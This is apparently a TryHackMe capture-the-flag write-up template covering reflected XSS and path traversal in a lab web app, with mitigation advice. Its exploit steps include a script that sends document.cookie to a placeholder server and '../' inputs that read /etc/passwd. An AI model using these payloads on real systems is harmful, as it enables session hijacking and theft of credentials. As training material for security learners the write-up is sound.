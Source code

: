 TryHackMe Room: [Room Name] Official Write-Up
Introduction

Welcome to the [Room Name]! This room is designed to test your skills in identifying and exploiting web vulnerabilities, including Cross-Site Scripting (XSS) and Path Traversal. This write-up serves as a guide for solving the room while understanding the underlying principles of each vulnerability.
Task 1: Cross-Site Scripting (XSS)
Scenario

The web application includes a search feature vulnerable to XSS. Malicious actors can exploit this vulnerability to inject scripts, leading to session hijacking, defacement, or other malicious activities.
Steps to Exploit

    Identify the Input Field:
        Navigate to the search functionality.
        Enter a harmless input such as test and observe the reflected output.

    Inject XSS Payload:
        Try a basic payload such as:

    <script>alert('XSS');</script>

    If the alert box appears, the application is vulnerable.

Exploit Further:

    Use payloads to steal cookies or perform other actions:

        <script>document.location='http://yourserver.com?c='+document.cookie;</script>

    Mitigation:
        Recommend input sanitization and encoding outputs.

Task 2: Path Traversal
Scenario

The application exposes a file download feature without proper validation of the file paths. This allows attackers to traverse directories and access unauthorized files on the server.
Steps to Exploit

    Locate the Vulnerable Endpoint:
        Identify a feature like /download?file=<filename>.

    Test for Path Traversal:
        Replace <filename> with ../../etc/passwd or variations:

        ../../../../etc/passwd

        If successful, sensitive files like /etc/passwd or configuration files are exposed.

    Exploit Further:
        Use automated tools like dirbuster to identify accessible files.
        Extract sensitive information, such as credentials or configurations.

    Mitigation:
        Implement strict input validation and use whitelists for accessible files.

Final Notes

    Lessons Learned:
        Understand the importance of secure coding practices to prevent vulnerabilities.
        Learn how attackers leverage these vulnerabilities for malicious purposes.

    Extra Challenges:
        Introduce security headers to mitigate XSS.
        Harden directory permissions to avoid Path Traversal.

    Room Creator’s Message: Thank you for participating! We hope you enjoyed solving this room and learned valuable techniques to secure your applications.
